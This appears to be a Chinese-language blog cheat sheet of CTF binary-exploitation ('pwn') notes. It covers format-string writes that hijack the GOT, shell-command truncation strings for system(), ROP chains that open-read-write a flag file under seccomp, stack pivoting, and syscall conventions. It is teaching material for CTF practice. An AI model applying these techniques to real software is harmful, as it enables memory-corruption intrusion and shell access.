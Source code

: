 ```yaml
---
layout: post
title: "pwn备忘"
date: 2020-12-04 18:42:37 +0800
description: ""
category: ctf/bin
tags: []
---
```


## 注意事项

- read函数读取终端的输入，循环读入一直持续到按`Ctrl + D`即EOF为止，此时输入不包含`\n`
- [system参数前面有地址](https://blog.csdn.net/qq_35429581/article/details/78231443)，需要参数截断（$0同sh）：`&&sh   ||sh   ;sh; `
- 以cin，scanf读入时遇到0x0a，0x20会截断，因此如果地址有0x0a，0x20要设法绕过（+0x8）！（sample：myzoo-安恒月赛-2018-10）
- 连续open文件`1024`次，使文件描述符数组满了后，无法再次打开文件，用于绕过读取random文件验证。
- `scanf("%d")`输入`+`或者`-`不会改变原来栈上内容。（sample：[easy_rop](http://ctf.njupt.edu.cn/298.htm)-NCTF2019）
- read函数需要保证整段输入缓冲区buff+nbytes都有写权限，否则即使只读取一个字节也会失败！因此，如果伪造输入缓冲区到栈Alloc_to_stack时，需要额外小心是否已经超出栈底，可以通过加argv参数进行验证。（sample：[smallorange](http://myhackerworld.top/2018/12/26/%E5%AE%89%E6%81%92%E6%9D%AF12%E6%9C%88%E6%9C%88%E8%B5%9B-pwn/)-安恒月赛-2018-12）
- `close(1)`，关闭标准输出后，通过`write(0,"123\n",4)`向标准输入打印也是可以获得输出值的，但是本地调试的时候采用`p = process('./blind_note')`，pwntools无法得到输出，因此需要通过`socat tcp-l:9999,reuseaddr,fork exec:./blind_note &`将程序绑定到9999端口，然后模拟远程连接`p = remote('127.0.0.1', 9999)`，pwntools才能得到输出。get shell之后，同样需要将输出重定向到标准输入才可看到输出值：`ls >&0`（sample：blind_note-安恒月赛-2018-11）

#### linux_64与linux_86的区别

- 内存地址的范围由32位变成了64位。但是可以使用的内存地址不能大于0x00007fffffffffff，否则会抛出异常。
- 函数参数的传递方式发生了改变，x86中参数都是保存在栈上,但在x64中的前六个参数依次保存在RDI, RSI, RDX, RCX, R8和 R9中，如果还有更多的参数的话才会保存在栈上。
- 泄漏ELF，32位从0x08048000开始，64位从0x400000开始

#### 函数入口与出口汇编指令

```asm
push ebp  # 将ebp压栈
mov ebp, esp #将esp的值赋给ebp

leave = mov esp, ebp # 将ebp的值赋给esp
        pop ebp #弹出ebp
ret = pop eip #弹出栈顶元素作为程序下一个执行地址
```

## 格式化字符串

1. 利用`%x`来获取对应栈的内存，但建议使用`%p`，可以不用考虑位数的区别
2. 利用`%s`来获取变量所对应地址的内容，只不过有零截断
3. 利用`%n$x`来获取指定参数的值，利用`%n$s`来获取指定参数对应地址的内容。获取栈中被视为第`n+1`个参数的值
4. `%12$n`不输出字符，但是把已经成功输出的字符个数写入对应的整型指针参数所指的变量。`%hhn`向某个地址写入单字节，利用`%hn`向某个地址写入双字节，`%$lln`表示写入的地址空间为8字节
5. `%*25$d`从栈中取变量作为N，比如：栈`25$`处的值是`0x100`，那么这个格式化字符串就相当于`%256d`。（sample：[pwn4](http://taqini.space/2020/04/05/MidnightsunCTF-2020-pwn-pwn4)-MidnightsunCTF-2020）

利用pwntools工具：

求偏移fmtarg

```
fmtstr_payload(offset, writes, numbwritten=0, write_size='byte')
第一个参数表示格式化字符串的偏移；
第二个参数表示需要利用%n写入的数据，采用字典形式{目标地址:修改的值}
第三个参数表示已经输出的字符个数，默认为0；
第四个参数表示写入方式，是按字节（byte）、按双字节（short）还是按四字节（int），对应着hhn、hn和n，默认值是byte，即按hhn写。
```

#### [利用](https://ctf-wiki.org/pwn/linux/user-mode/fmtstr/fmtstr-example)

1. **hijack GOT**：`fmtstr_payload(7, {puts_got: system_addr})`
2. **hijack retaddr**：`p64(ret_addr) + "%2218d%8$hn"`
3. 堆上格式化字符串漏洞：**修改上层函数保存的ebp**(即上上层函数的 ebp) 为堆上预先存储`system_addr的地址-4`，当执行`leave=mov esp, ebp; pop ebp`时，ebp=system_addr-4。当再执行leave，`mov esp, ebp`将esp=ebp=system_addr-4，`pop ebp`出栈操作将esp+4，指向system_addr，此时，ret将EIP指向system_addr，从而getshell。

## 沙箱保护

#### [seccomp](https://veritas501.space/2018/05/05/seccomp%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/)

```c
#include <linux/seccomp.h>
ctx = seccomp_init(SCMP_ACT_ALLOW); //默认允许所有
seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0); //如果arg_cnt不为0,那arg_cnt表示后面限制的参数的个数,也就是只有调用execve,且参数满足要求时,才会拦截syscall.
```

#### [prctl函数](http://www.secwk.com/2019/09/20/6564/)

```c
#include <sys/prctl.h>
int prctl(int option, unsigned long arg2, unsigned long arg3, unsigned long arg4, unsigned long arg5);
//参数1设置为PR_SET_NO_NEW_PRIVS（38），参数2设置为1，不能够进行execve的系统调用
//参数1设置为PR_SET_SECCOMP（22），参数2设置为2，使用Berkeley Packet Filter（BPF）设置seccomp沙箱规则
/** /usr/include/linux/prctl.h **/
#define PR_SET_SECCOMP  22
#define PR_SET_NO_NEW_PRIVS     38
```

#### 借助[seccomp-tools](https://github.com/david942j/seccomp-tools)检查禁用的系统调用

```shell
$ seccomp-tools dump warmup
```

#### 通过OpenReadWrite的方式直接读取输出，过滤了open，可以用openat代替。

`fd = open('flag',0) --> read(fd,buf,0x100) --> write(1,buf,0x100)`

```python
payload=p64(pop_rdi_ret)+p64(0)+p64(pop_rsi_ret)+p64(free_hook)+p64(pop_rdx_ret)+p64(4)+p64(read_addr) #read(0, free_hook, 4)，没开pie保护可选用bss，开启所有保护时，借助free_hook作为输入输出缓冲区
payload+=p64(pop_rdi_ret)+p64(free_hook)+p64(pop_rsi_ret)+p64(0)+p64(open_addr) #open(free_hook, O_RDONLY)
payload+=p64(pop_rdi_ret)+p64(3)+p64(pop_rsi_ret)+p64(free_hook)+p64(pop_rdx_ret)+p64(0x30)+p64(read_addr) #read(3, free_hook, 0x30)，从fd=3(默认0/1/2是STDIN/OUT/ERR，文件指针从3开始)读0x30个字节到free_hook缓冲区
payload+=p64(pop_rdi_ret)+p64(free_hook)+p64(puts_addr) #puts(free_hook)输出
#/usr/include/x86_64-linux-gnu/bits/fcntl-linux.h
#define O_RDONLY             00
#define O_WRONLY             01
#define O_RDWR               02
```

如果溢出空间太小（x64环境下至少溢出0x10个字节），需要借助栈迁移。

```python
#预先设置好bss
payload='a'*offset + p64(bss) + p64(leave_ret)
```


## 栈迁移（stack pivoting）

原理：借助`leave=mov esp,ebp; pop ebp;`控制栈顶指针`esp`。

适用条件：读入长度太少，无法直接在当前栈完成攻击，需要将栈迁移到可控区域（多为bss段）。（sample：[lab 6-HITCON-Training](https://zhuanlan.zhihu.com/p/113588287)）

```python
payload += bss + read_plt + leave_ret + 0 + bss + 0x100 #read(0, bss, 0x100)
send(payload)
payload = bss_1 + put_plt + pop + x_got + read_plt + leave_ret + 0 + bss_1 + 0x100
send(payload)
```

先pop ebp使得ebp=bss，再调用read布置bss，当从read返回调用leave_ret时，esp=ebp=bss，实现控制esp到bss的目的，同理，接下来可以多次迁移。

## [syscall系统调用](https://blog.csdn.net/qq_38154820/article/details/106330212)

运行在用户空间的程序向操作系统内核请求更高权限运行的服务。

#### 32位

传参方式：首先将系统调用号传入eax，然后将参数从左到右依次存入ebx，ecx，edx寄存器中，返回值存在eax寄存器

调用号（/usr/include/asm/unistd_32.h）：read的调用号为3，sys_write的调用号为4，execve的调用号为11

调用方式：使用`int 80h`中断进行系统调用

#### 64位

传参方式：首先将系统调用号传入rax，然后将参数从左到右依次存入rdi，rsi，rdx寄存器中，返回值存在rax寄存器

调用号（/usr/include/asm/unistd_64.h）：read的调用号为0，sys_write的调用号为1，execve的调用号为59

调用方式: 使用`syscall`进行系统调用

## [静态编译恢复libc符号](https://blog.csdn.net/u010334666/article/details/103889649)

```
python lscan.py -S i386/sig -f /mnt/hgfs/matches/2023/230414wdbawd/pwn2/bin
```

然后根据将[sig-database](https://github.com/push0ebp/sig-database)中对应的sig文件，放到IDA安装目录的sig/pc（切记一定是pc目录）

shift+F5，右键Apply new signature，选择对应的libc。

## ARM-ROP

函数调用约定，函数的第1-4个参数分别保存在`r0-r3`寄存器中， 剩下的参数从右向左依次入栈，被调用者实现栈平衡，函数的返回值保存在`r0`中。r13栈指针，pc寄存器相当于x86 的eip，保存下一条指令的地址，也是我们要控制的目标。

`b/bl`等指令实现跳转。